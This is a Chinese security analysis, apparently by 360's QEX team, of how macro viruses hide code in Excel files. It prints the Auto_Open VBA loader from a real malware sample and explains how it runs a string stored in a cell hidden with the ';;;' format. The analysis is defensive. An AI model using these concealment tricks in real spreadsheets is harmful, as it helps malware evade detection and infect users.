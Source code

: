 # 技术揭秘：宏病毒代码三大隐身术

0x00 简介
=====

作为一类古老的病毒，宏病毒随着勒索软件的兴起而卷土重来。尤其是在2016年，以Locky为代表的勒索软件利用Office宏肆虐传播，宏病毒也成为目前最活跃的病毒品种之一。

在与安全软件的对抗中，宏病毒使用了多种手段隐藏其恶意代码或数据，近期出现的新变种则是利用Excel表格的函数动态生成PE文件数据、设置远距离存放位置、隐藏显示、不同表切换等方式进行隐藏。接下来，360QEX引擎团队将对宏病毒代码流行的三类“隐身术”进行逐一揭秘。

0x01 Excel表格隐藏数据
=====

*   样本文件md5: 48f202f903741e7a1722bfa6b4c051aa.xls
*   sha256: 083a05000c4b8e9a88a0ff8a95a3d9826dd389b440bb1781237ca124b0d986a7

virustotal 扫描结果：

![p1](http://drops.javaweb.org/uploads/images/af6cd9c949ab9f9859ac2f176fe6617bdb3627be.jpg)

样本对自身 VBAProject 进行了加密，

![p2](http://drops.javaweb.org/uploads/images/3d0c606c8a2a268b97c13cbfa03c31e4fc3f7dee.jpg)

破解之后，看到了宏代码执行入口函数 Auto_Open，

```
Sub Auto_Open()

On Error Resume Next
Application.DisplayAlerts = False
Dim WB As Workbook
Set WB = ActiveWorkbook

Dim Sh1, Sh2, sh3 As Worksheet
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)
Set sh3 = WB.Sheets(3)
Dim str As String
str = Sh2.Cells(996, 40)
Dim t As Date
t = Now + TimeSerial(0, 0, 1)
Application.OnTime t, str

End Sub

```

病毒作者使用 Application.OnTime 函数，间隔 1 秒，执行 字符串 “str” ，”str” 的值是从表格 Cells(996, 40) 中获取，当去查看表格中该处值时发现病毒更改了Excel单元格格式 ，把数据隐藏显示。

单元格格式设置为三个`;;;`时，单元格内容就会被隐藏。

![p3](http://drops.javaweb.org/uploads/images/41703db96cca18374f7d390badb3409c04374ffb.jpg)

